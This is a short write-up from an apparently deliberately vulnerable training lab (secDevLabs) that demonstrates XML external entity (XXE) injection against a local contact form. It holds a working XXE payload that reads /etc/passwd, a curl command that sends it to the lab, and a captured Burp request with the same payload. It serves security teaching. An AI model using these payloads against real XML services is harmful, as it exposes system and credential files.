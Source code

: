 # XXE--

Many older or poorly configured XML processors evaluate external entity references within XML documents. External entities can be used to disclose internal files using the file URI handler, internal file shares, internal port scanning, remote code execution, and denial of service attacks.

The main goal of this app is to discuss how **XXE** vulnerabilities can be exploited and to encourage developers to send secDevLabs Pull Requests on how they would mitigate these flaws.

## Setup


    make install


Then simply visit [localhost:10004][App] ! 😆





```XML
<?xml version="1.0" encoding="UTF-8"?>
<contact>
    <name>RAFAEL</name>
    <email>RAFAEL@EXAMPLE.com</email>
    <subject>YOU ROCK</subject>
    <message>I LOVE WATCHING YOUR SKILLS, MAN</message>
</contact>
```

And  run:

    curl -d @payload.xml localhost:10004/contact.php ; echo

evilxml.xml

    <?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE root [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
    ]>
    <contact>
    <name>&xxe;</name>
    <email>RAFAEL@EXAMPLE.com</email>
    <subject>YOU ROCK</subject>
    <message>I LOVE WATCHING YOUR SKILLS, MAN</message>
    </contact>

Attack :

    curl -d @evilxml.xml localhost:10004/contact.php ; echo
    
Burp Request : 


POST /contact.php HTTP/1.1
Host: localhost:10004
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:96.0) Gecko/20100101 Firefox/96.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/plain;charset=UTF-8
Content-Length: 156
Origin: http://localhost:10004
Connection: close
Referer: http://localhost:10004/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY xxezrp9j SYSTEM "file:///etc/passwd"> ]><contact><name>mvmm&xxezrp9j;</name><email>ccc@gmail.com</email><subject>aaacckj</subject><message>undefined</message></contact>
